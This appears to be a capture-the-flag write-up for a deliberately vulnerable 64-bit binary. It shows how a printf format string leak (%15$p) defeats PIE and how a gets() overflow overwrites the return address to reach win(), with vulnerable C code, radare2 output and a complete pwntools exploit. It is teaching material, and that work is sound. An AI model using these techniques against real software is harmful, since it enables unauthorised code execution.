 # Exploit Writeup: vuln-64

## Challenge Overview

**Binary Name:** `vuln-64`
**Architecture:** 64-bit ELF  
**Protections:**  
- NX: Enabled  
- PIE: Enabled  
- Stack Canaries: Not Present  
- RELRO: Partial  

The binary asks for your name and prints it using `printf()`, making it vulnerable to a **format string vulnerability**. Later, it takes a message input with `gets()`, leading to a **buffer overflow**.

---

## Vulnerability Analysis

### 1. Format String Leak

The input to `name?` is passed directly into `printf()` without format sanitization:

```c
char name[32];
puts("What's your name?");
gets(name);
printf("Nice to meet you ");
printf(name);
````

This allows us to leak addresses on the stack using `%p`. Specifically, `%15$p` leaks the return address to `main()` which helps bypass PIE.


### 2. Buffer Overflow

The message is read again using `gets()`:

```c
puts("What's your message?");
gets(buffer);
```

Since there’s no bounds checking, we can overflow the buffer and control the return address to redirect execution to `win()`.

---

## 🛠 Exploitation Steps

### Step 1: Leak `main()` address to defeat PIE

We send `%15$p` as the name to leak the return address pointing into `main()`:

```python
p.sendline('%15$p')
leak = int(p.recvline().strip(), 16)
```

![leaked main](./img/leakedmain.png)

### Step 2: Calculate PIE base address

Using symbols from `rabin2` or `ELF()` from pwntools, we find:

```bash
$ rabin2 -s ./vuln-64 | grep main
65  0x000011d6 0x000011d6 GLOBAL FUNC   21       main
```

So PIE base = leaked address - 0x11d6.

```python
elf.address = leak - elf.symbols['main']
```

### Step 3: Overflow buffer and call `win()`

Find offset using raag2:

```bash
$ ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
```

first we need to find the position of return addreess on the stack 

```bash
[0x7071a6c1f5c0]> s main; pdf
            ; DATA XREF from entry0 @ 0x5ca75319909d(r)
┌ 21: int main (int argc, char **argv, char **envp);
│           0x5ca7531991d6      55             push rbp
│           0x5ca7531991d7      4889e5         mov rbp, rsp
│           0x5ca7531991da      b800000000     mov eax, 0
│           0x5ca7531991df      e881ffffff     call sym.vuln
│           0x5ca7531991e4      b800000000     mov eax, 0
│           0x5ca7531991e9      5d             pop rbp
└           0x5ca7531991ea      c3             ret
[0x5ca7531991d6]>
```

we need to find the value `0x5ca7531991e4` on the stack

```bash
[0x5ca7531991d3]> pxq @ rsp
```

![stack main addr](./img/mainaddr.png)

---

<br>

![offset](./img/ragg2-offset.png)


boom we get the offset

Then, build the payload:

```python
payload = b'A' * 40
payload += p64(elf.symbols['win'])
```

---

## 💥 Final Exploit

```python
from pwn import *

context.binary = elf = ELF('./vuln-64')
context.log_level = 'debug'
p = process()

# Step 1: Leak address of main()
p.recvuntil('name?\n')
p.sendline('%15$p')

p.recvuntil('you ')
leak = p.recvline().strip()
elf_leak = int(leak, 16)
log.success(f"Leaked address of main(): {hex(elf_leak)}")

# Step 2: Calculate PIE base
elf.address = elf_leak - elf.symbols['main']
log.success(f"PIE base address: {hex(elf.address)}")

# Step 3: Build payload to call win()
payload = b'A' * 40
payload += p64(elf.sym['win'])

# Step 4: Send payload
p.recvuntil('message?\n')
p.sendline(payload)

# Step 5: Output result
print(p.clean().decode(errors='ignore'))

```

![final result](./img/final.png)

---

## ✅ Conclusion

This challenge combines **format string** for address leak and **buffer overflow** for control of execution. By leaking PIE base and overwriting return address, we redirect execution to `win()`.

---

## 🔧 Tools Used

* [pwntools](https://docs.pwntools.com)
* [r2 / rabin2](https://rada.re/n/)


---

## 📌 Notes

* `%15$p` worked because in 64-bit, the first few arguments are passed in registers. from 1-6
* `gets()` should never be used in real code due to its lack of bounds checking.


---

to learn more about Format string attack [click](https://owasp.org/www-community/attacks/Format_string_attack) here
